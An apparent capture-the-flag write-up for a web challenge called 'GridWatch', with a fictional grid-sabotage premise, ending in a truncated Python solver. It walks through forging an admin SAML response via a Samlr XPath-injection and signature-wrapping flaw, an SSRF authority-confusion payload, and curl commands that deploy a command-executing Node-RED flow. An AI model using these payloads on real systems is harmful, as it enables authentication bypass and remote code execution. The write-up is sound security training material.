









<font size='10'>GridWatch</font>

20<sup>th</sup> April 2026

Prepared By: `dimasmaulana`

Challenge Author(s): `dimasmaulana`

Difficulty: <font color='orange'>Medium</font>

<br><br>

# Synopsis

GridWatch requires chaining a Samlr signature-wrapping authentication bypass with an authenticated server-side request forgery and an internal Node-RED deployment that has no administrator authentication. A forged SAML response is accepted as the grid operations administrator, which unlocks the operator relay endpoint and allows the solver to reach the internal SCADA automation service, deploy a malicious flow, execute the setuid `/readflag` helper, and return the flag.

## Description

Korvia operates GridWatch, a national operator portal managing power distribution and substation automation across their regional grid. Directorate 9's Gilded Weaver unit has been running coordinated attacks against our election infrastructure, and Task Force Nightfall has been authorized to strike back. You are tasked to infiltrate GridWatch, gain access to their industrial control systems, and seize operator-level control over their power grid before they can execute their next move.

## Skills Required

- Python and Ruby source-code review
- Basic SAML response and ACS workflow knowledge
- URL authority parsing edge-case analysis
- SSRF payload construction
- Basic Node-RED flow and admin API understanding

## Skills Learned

- Identify Samlr XPath injection and signature-wrapping weaknesses in SAML verification
- Use parser confusion to bypass forced DNS suffix constraints
- Chain authenticated SSRF into an internal-only service
- Abuse unauthenticated Node-RED administration to deploy a malicious flow
- Use a setuid helper from an unprivileged service runtime to retrieve a protected flag

# Enumeration

From the public entrypoint, the frontend UI is visible as the GridWatch portal. Unauthenticated users receive an SSO login prompt and no direct relay access.



Clicking **Continue** redirects to the GridWatch Identity SSO screen at `/idp/sso`, where operators enter their Korvia email.



After entering the email, the form advances to the password step.



The administrator dashboard is the target state — it is not reachable through normal login. The IdP silently downgrades any submitted email that contains the word "admin" to the unprivileged `operator@ops.beacon` account, so legitimate credentials for the admin mailbox do not exist. Reaching this page requires the SAML signature-wrapping exploit covered in the Solution section.







The relay route exposes individual substation feed pages. Each feed page shows a live incident report for the targeted substation, including severity, event timeline, and affected SCADA path.

**sub-n7a** (`/relay/subnorth/`)





**sub-d3b** (`/relay/subdelta/`)


**sub-e2c** (`/relay/subeast/`)




## Analyzing the source code

The challenge ships five relevant application components:

- `challenge/web/app.py` implements the public relay frontend, SSO proxy, ACS endpoint, session handling, and `/relay/{feed:[0-z]+}/` route.
- `challenge/auth/app.rb` implements the GridWatch Identity IdP and SAML verification backend.
- `challenge/feed/app.py` implements the internal substation feed service bound to `*.feed.beacon`.
- `challenge/nodered/settings.js` configures the internal Node-RED service bound to `ops.beacon`.
- `challenge/readflag.c` builds the setuid helper that reads `/root/flag.txt`.

The web frontend protects the relay route with an authenticated administrator session:

```python
async def fetch_feed(request: web.Request) -> web.Response:
    session = get_session(request)
    if session is None:
        return web.Response(text="SSO session required", status=403)
    if not bool(session.get("is_admin")):
        return web.Response(text="Admin session required", status=403)
```

Once the session check passes, the handler takes a user-controlled upstream path from the query string and forwards the caller's HTTP method and body to the resolved internal host:

```python
feed = filter_bad_characters(request.match_info["feed"])
relay_path = normalize_relay_path(request.query.get("path", "/"))
target = f"http://{feed}.feed.beacon:80{relay_path}"

async with ClientSession() as client:
    async with client.request(
        request.method,
        target,
        data=body,
        headers=headers,
    ) as response:
```

The auth service pins Samlr to the vulnerable `1681f8c` revision:

```text
gem "samlr", git: "https://github.com/zendesk/samlr.git", ref: "1681f8c"
```

The verifier uses Samlr to validate the submitted `SAMLResponse` and then trusts the returned `NameID` for the session role decision:

```ruby
response = Samlr::Response.new(saml_b64, fingerprint: IDP_FINGERPRINT)
response.verify!

name_id = response.name_id.to_s
admin = admin_principal?(name_id)
```

In Samlr commit `1681f8c`, signature resolution is done by `find_signature_for_element_id` in `lib/samlr/signature.rb`, which interpolates the element ID directly into an XPath predicate:

```ruby
def find_signature_for_element_id(element_id)
  return nil unless element_id

  @document.at_xpath("//ds:Signature[ds:SignedInfo/ds:Reference[@URI='##{element_id}']]", NS_MAP)
end
```

If the response ID is `x' or '1'='1`, the predicate becomes true for any `ds:Signature` in the document. A forged response can therefore move a legitimate metadata signature into the response, embed the referenced `EntityDescriptor` in `StatusDetail`, set `NameID` to `operator-admin@ops.beacon`, and still pass `response.verify!`.

The internal Node-RED service is configured without administrator authentication:

```javascript
module.exports = {
    uiHost: "127.0.0.11",
    uiPort: 80,
    adminAuth: false,
```

The container stores the flag under `/root/flag.txt` and exposes a setuid helper that can read it:

```dockerfile
COPY challenge/flag.txt /root/flag.txt
RUN gcc -O2 -Wall -Wextra -o /readflag /tmp/readflag.c \
    && rm /tmp/readflag.c \
    && chown root:root /readflag /root/flag.txt \
    && chmod 4755 /readflag \
    && chmod 0400 /root/flag.txt
```

The helper performs a direct read from the protected path:

```c
int fd = open("/root/flag.txt", O_RDONLY);
while ((read_count = read(fd, buffer, sizeof(buffer))) > 0) {
    if (write(STDOUT_FILENO, buffer, (size_t)read_count) != read_count) {
        close(fd);
        return 1;
    }
}
close(fd);
```

# Solution

The intended solution forges an administrator SAML response with the Samlr XPath injection/signature-wrapping issue, then uses the resulting administrator session to access the relay route and target the internal Node-RED service. Because Node-RED is configured with `adminAuth: false`, the solver can deploy a new flow through the admin API. The deployed flow exposes an HTTP endpoint that runs `/readflag` through Node-RED's `exec` node and returns the flag in the HTTP response.

## Finding the vulnerability

The exploit depends on three weaknesses that must be chained in order:

1. Samlr commit `1681f8c` resolves the response signature with an XPath query built from the attacker-controlled response ID.
2. The relay appends `.feed.beacon` to attacker-controlled input, but a crafted authority payload makes the HTTP client resolve the request as `ops.beacon`, while the relay query parameter controls the upstream path and forwarded method.
3. The internal Node-RED deployment explicitly disables administrator authentication, allowing unauthenticated flow deployment from any reachable client.

The first issue converts a forged SAML response into an administrator session by reusing a legitimate metadata signature. The second issue turns the administrator-only relay into a method-capable SSRF primitive. The third issue converts SSRF reachability into arbitrary flow deployment inside Node-RED.

## Exploitation

### Connecting to the server

Start the challenge and open `http://127.0.0.1:1337` in a browser. The portal immediately redirects unauthenticated visitors to the login page. Clicking **Continue** initiates the SSO flow and lands on `/idp/sso`.

### Step 1 — Fetching the signed IdP metadata

The IdP exposes its metadata at `/idp/metadata`. Fetch it and extract the `ds:Signature` element — this is a legitimate signature over the `EntityDescriptor` that will be reused in the forged response.

```bash
curl http://127.0.0.1:1337/idp/metadata
```

The response is an XML document containing an `md:EntityDescriptor` element with a `ds:Signature` child. Save the entire `<ds:Signature>...</ds:Signature>` block and strip the XML declaration from the metadata. These two pieces are used to construct the forged SAML response.

### Step 2 — Constructing the forged SAML response

The Samlr `1681f8c` vulnerability lives in `find_signature_for_element_id`, which interpolates the response `ID` attribute directly into an XPath string:

```ruby
def find_signature_for_element_id(element_id)
  return nil unless element_id

  @document.at_xpath("//ds:Signature[ds:SignedInfo/ds:Reference[@URI='##{element_id}']]", NS_MAP)
end
```

Setting `ID` to `x' or '1'='1` makes the predicate `[@URI='#x' or '1'='1']`, which is always true, so `at_xpath` returns the first `ds:Signature` in the document regardless of what it actually signs. The forged response structure:

1. Places the extracted metadata `ds:Signature` directly inside the `samlp:Response` element.
2. Embeds the stripped `EntityDescriptor` inside `samlp:StatusDetail` so the signature's `Reference` still resolves to a real node.
3. Sets `NameID` to `operator-admin@ops.beacon` inside a valid `saml:Assertion`.

```xml
<samlp:Response
    xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"
    xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
    xmlns:ds="http://www.w3.org/2000/09/xmldsig#"
    ID="x' or '1'='1"
    Version="2.0"
    IssueInstant="..."
    Destination="http://TARGET/sso/acs"
    InResponseTo="...">
  <saml:Issuer>beacon-auth-idp</saml:Issuer>
  <!-- metadata ds:Signature pasted here verbatim -->
  <samlp:Status>
    <samlp:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
    <samlp:StatusDetail>
      <!-- stripped EntityDescriptor pasted here -->
    </samlp:StatusDetail>
  </samlp:Status>
  <saml:Assertion ...>
    <saml:Issuer>beacon-auth-idp</saml:Issuer>
    <saml:Subject>
      <saml:NameID>operator-admin@ops.beacon</saml:NameID>
      ...
    </saml:Subject>
    <saml:Conditions ...>
      <saml:AudienceRestriction>
        <saml:Audience>beacon-sso</saml:Audience>
      </saml:AudienceRestriction>
    </saml:Conditions>
    ...
  </saml:Assertion>
</samlp:Response>
```

Base64-encode the full XML (no line breaks):

```bash
python3 -c "import base64,sys; print(base64.b64encode(open('forged.xml','rb').read()).decode())"
```

### Step 3 — Submitting the forged response

POST the base64-encoded payload to the ACS endpoint. The web frontend forwards it to the auth backend's `/api/verify`, which calls `response.verify!`. Because the XPath injection makes any signature match, verification passes and the backend returns `{"ok":true,"name_id":"operator-admin@ops.beacon","is_admin":true}`. The web app sets an admin session cookie.

```bash
curl -c cookies.txt -b cookies.txt -X POST http://127.0.0.1:1337/sso/acs \
  --data-urlencode "SAMLResponse=<base64-payload>"
```

The response redirects to `/`, confirming an admin session is established. The dashboard is now accessible.

### Step 4 — Reaching the internal Node-RED via authority confusion

The relay route at `/relay/{feed:[0-z]+}/` takes the feed segment, appends `.feed.beacon`, and forwards the request. The `filter_bad_characters` function strips `;<=>?@` but leaves `[`, `]`, and `:` untouched.

The authority-confusion payload is:

```
[:x@ops@beacon[]]
```

URL-encoded: `%5B%3Ax%40ops%40beacon%5B%5D%5D`

When `aiohttp` builds the upstream URL `http://[:x@ops@beacon[]].feed.beacon:80/path`, it parses the authority component as follows: `[:x@ops@beacon[]]` is treated as an IPv6-style address literal, the userinfo prefix `[:x@ops@` is consumed, and the remaining host resolves as `ops.beacon`. The `.feed.beacon` suffix after the closing bracket falls outside the authority and is ignored. The client connects to `ops.beacon` (i.e. `127.0.0.11`).

Verify the path reaches Node-RED:

```bash
curl -c cookies.txt -b cookies.txt \
  "http://127.0.0.1:1337/relay/%5B%3Ax%40ops%40beacon%5B%5D%5D/?path=/auth/login"
```

An open Node-RED admin instance returns `{}` — no authentication is required.

### Step 5 — Deploying a malicious Node-RED flow

POST a three-node flow to the Node-RED admin API through the relay. The flow wires an HTTP input node to an `exec` node running `/readflag`, with the stdout output forwarded to an HTTP response node.

Choose a random endpoint path, for example `/flag-abc123`.

```bash
curl -c cookies.txt -b cookies.txt -X POST \
  "http://127.0.0.1:1337/relay/%5B%3Ax%40ops%40beacon%5B%5D%5D/?path=/flows" \
  -H "Content-Type: application/json" \
  -H "Node-RED-Deployment-Type: full" \
  -d '[
    {"id":"tab1","type":"tab","label":"GridWatch Operator Canvas","disabled":false,"info":""},
    {"id":"n1","type":"http in","z":"tab1","url":"/flag-abc123","method":"get","wires":[["n2"]]},
    {"id":"n2","type":"exec","z":"tab1","command":"/readflag","wires":[["n3"],[],[]]},
    {"id":"n3","type":"http response","z":"tab1","wires":[]}
  ]'
```

A `200` or `204` response confirms the flow was deployed.

### Step 6 — Triggering the flow and reading the flag

Request the newly deployed endpoint through the relay:

```bash
curl -c cookies.txt -b cookies.txt \
  "http://127.0.0.1:1337/relay/%5B%3Ax%40ops%40beacon%5B%5D%5D/?path=/flag-abc123"
```

Node-RED executes `/readflag`, which reads `/root/flag.txt` as root via the setuid bit, and returns the contents in the HTTP response body.

### Getting the flag

A final summary of the flag retrieval path:

1. Fetch `/idp/metadata` and extract the signed metadata elements required for the forged response.
2. Build a forged SAML response with ID `x' or '1'='1` and `NameID` set to `operator-admin@ops.beacon`.
3. Submit the forged response to `/sso/acs` and retain the administrator session cookie.
4. Use the relay authority-confusion payload `[:x@ops@beacon[]]` to reach `ops.beacon`, and verify that `/auth/login` returns an unauthenticated Node-RED admin response.
5. POST a malicious flow to `/flows` through the relay, creating an HTTP endpoint backed by an `exec` node that runs `/readflag`.
6. Request the newly deployed endpoint through the relay.
7. Read the HTTP response, extract `HTB{...}`, and print it.

The complete solver is `htb/solver.py`:

```python
#!/usr/bin/env python3

import argparse
import base64
import datetime as dt
import json
import re
import sys
import uuid
from urllib.parse import quote
from xml.sax.saxutils import escape

import httpx


ADMIN_EMAIL = "operator-admin@ops.beacon"
NODE_RED_AUTHORITY = "[:x@ops@beacon[]]"
SESSION_COOKIE = "beacon_session"
XPATH_INJECTION_ID = "x' or '1'='1"


def expect(stage: str, response: httpx.Response, ok: tuple[int, ...] = (200,)) -> str:
    if response.status_code not in ok:
        raise RuntimeError(f"{stage} failed with status {response.status_code}: {response.text}")
    return response.text


class API:
    def __init__(self, base_url: str) -> None:
        self.base_url = base_url.rstrip("/")
        self.relay_base = f"/relay/{quote(NODE_RED_AUTHORITY, safe='')}/"
        self.client = httpx.Client(base_url=self.base_url, follow_redirects=True, timeout=10.0)

    def __enter__(self) -> "API":
        return self

    def __exit__(self, *_args: object) -> None:
        self.client.close()

    def _text(self, stage: str, response: httpx.Response, ok: tuple[int, ...] = (200,)) -> str:
        return expect(stage, response, ok)

    def _relay(self, path: str, *, method: str = "GET", body: bytes | None = None, headers: dict[str, str] | None = None) -> httpx.Response:
        return self.client.request(
            method,
            self.relay_base,
            params={"path": path},
            content=body,
            headers=headers,
        )

    def fetch_metadata(self) -> str:
        return self._text("metadata fetch", self.client.get("/idp/metadata"))

    def submit_saml(self, saml_response: str) -> None:
        self._text("forged sso acs stage", self.client.post("/sso/acs", data={"SAMLResponse": saml_response}))

    def homepage(self) -> str:
        return self._text("session validation", self.client.get("/"))

    def node_red_is_open(self) -> bool:
        return self._text("relay GET /auth/login", self._relay("/auth/login")).strip() == "{}"

    def deploy_flow(self, flow: list[dict[str, object]]) -> None:
        self._text(
            "relay POST /flows",
            self._relay(
                "/flows",
                method="POST",
                body=json.dumps(flow).encode(),
                headers={
                    "Content-Type": "application/json",
                    "Node-RED-Deployment-Type": "full",
                },
            ),
            (200, 204),
        )

    def trigger_flow(self, endpoint: str) -> str:
        return self._text(f"relay GET {endpoint}", self._relay(endpoint))

    def session_cookie(self) -> str | None:
        return self.client.cookies.get(SESSION_COOKIE)


def saml_time(offset_seconds: int = 0) -> str:
    return (dt.datetime.now(dt.UTC) + dt.timedelta(seconds=offset_seconds)).strftime("%Y-%m-%dT%H:%M:%SZ")


def forge_saml_response(metadata_xml: str, base_url: str) -> str:
    metadata = re.sub(r"\A\s*<\?xml[^>]*>\s*", "", metadata_xml, count=1).strip()
    signature = re.search(r"(<(?:[A-Za-z0-9_]+:)?Signature\b[\s\S]*?</(?:[A-Za-z0-9_]+:)?Signature>)", metadata)
    if signature is None:
        raise RuntimeError("metadata did not contain a ds:Signature element")

    descriptor = metadata[: signature.start()] + metadata[signature.end() :]
    issue_instant = saml_time()
    not_before = saml_time(-60)
    not_on_or_after = saml_time(3600)
    request_id = f"_{uuid.uuid4().hex}"
    assertion_id = f"_{uuid.uuid4().hex}"
    destination = f"{base_url}/sso/acs"

    xml = f"""<samlp:Response
    xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"
    xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
    xmlns:ds="http://www.w3.org/2000/09/xmldsig#"
    ID="{escape(XPATH_INJECTION_ID, {'"': '&quot;'})}"
    Version="2.0"
    IssueInstant="{issue_instant}"
